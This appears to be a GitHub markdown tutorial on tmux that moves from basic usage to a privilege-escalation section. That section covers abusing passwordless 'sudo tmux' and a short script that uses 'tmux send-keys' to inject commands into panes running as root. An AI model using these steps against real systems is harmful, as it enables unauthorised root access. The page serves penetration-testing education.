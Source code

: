 # Tmux Privilege

## OverView

`Tmux` is an open-source *terminal multiplexer* for `Unix-like` operating systems. It allows multiple terminal sessions to be accessed simultaneously in a single window. It is useful for running more than one command-line program at the same time. It can also be used to detach processes from their controlling terminals, allowing remote sessions to remain active without being visible

`Tmux` includes most features of GNU Screen. It allows users to start a terminal session with clients that are not bound to a specific physical or virtual console; multiple terminal sessions can be created within a single terminal session and then freely rebound from one virtual console to another, and each session can have several connected clients.

## How to install `Tmux`

> sudo apt install tmux

## How it works;

For detailed instructions we can use.
> tmux -h

![image](https://user-images.githubusercontent.com/63194321/147381941-723550ba-4e5a-4e3e-83d7-67531634d701.png)


You can start `tmux` using the terminal:

> tmux

![image](https://user-images.githubusercontent.com/63194321/147381788-2c6a021f-0ea9-4d69-b79d-00e0c02c4578.png)

Create a new session with your own name:

> tmux new -s <session_name>

list available sessions:

> tmux ls

*In addition, when entering the GUI of `tmux` you can find out more at [Tmux cheat sheet](https://quickref.me/tmux)*

## Tmux Privilege Escalation

1. Privilege Escalation with `Sudo`

After gaining access to the victim machine check the permissions on the victim account.Found the victim's account to have access to tmux with `sudo` without a password.
> sudo -l

![image](https://user-images.githubusercontent.com/63194321/147386330-f6b9b3e6-3871-43dd-9f23-7a497f7d4606.png)

As a user with sudo privileges we can use this to escalate privileges.
> sudo tmux

![image](https://user-images.githubusercontent.com/63194321/147386349-91c10c4e-f3e3-4b60-820d-0f4681bb4f58.png)

2. Tmux privilege escalation abusing send-keys

A script run as user in tmux can under some circumstances execute commands as root.

There's a tmux feature to send keystrokes to a pane.

`tmux send-keys -t $pane 'C-c'` for example sends SIGINT to whatever is running in pane $pane.

If in the `tmux` compartment there is a user running as the `root` user we can take advantage of this to perform escalation.

![image](https://user-images.githubusercontent.com/63194321/147386959-3e45e22c-f1f3-4c5e-85ab-7ae5b4ee2eef.png)

Next create a script with the following content:
> #!/bin/sh  
for pane in `tmux list-panes | grep -Po '^\d'`; do  
tmux send-keys -t $pane 'whoami' Enter ;  
done;

![image](https://user-images.githubusercontent.com/63194321/147386999-ff170cc1-3657-4cfc-a553-c6e3730d94e1.png)

Run the script on a user without `root` privileges.

![image](https://user-images.githubusercontent.com/63194321/147387067-bd469cde-7dad-4eb2-aa3e-f00ce170f1cd.png)



### Reference 

[https://viblo.asia/p/gioi-thieu-co-ban-ve-tmux-zoZVRgLEMmg5](https://viblo.asia/p/gioi-thieu-co-ban-ve-tmux-zoZVRgLEMmg5)

[https://www.joyk.com/dig/detail/1562877072279933](https://www.joyk.com/dig/detail/1562877072279933)

[https://www.hackingarticles.in/linux-for-pentester-tmux-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-tmux-privilege-escalation/)







